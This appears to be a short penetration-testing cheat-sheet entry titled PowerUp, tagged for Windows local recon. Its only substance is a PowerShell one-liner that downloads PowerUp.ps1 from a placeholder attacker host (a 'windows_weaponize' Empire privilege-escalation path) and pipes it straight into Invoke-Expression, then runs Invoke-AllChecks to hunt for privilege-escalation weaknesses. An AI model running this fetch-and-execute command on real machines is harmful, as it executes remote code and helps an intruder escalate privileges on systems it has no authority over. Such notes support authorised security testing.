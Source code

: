 # PowerUp

#plateform/windows #target/local #cat/RECON #tag/powershell

## oneliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/empire/privesc/PowerUp.ps1') | IEX; Invoke-AllChecks
```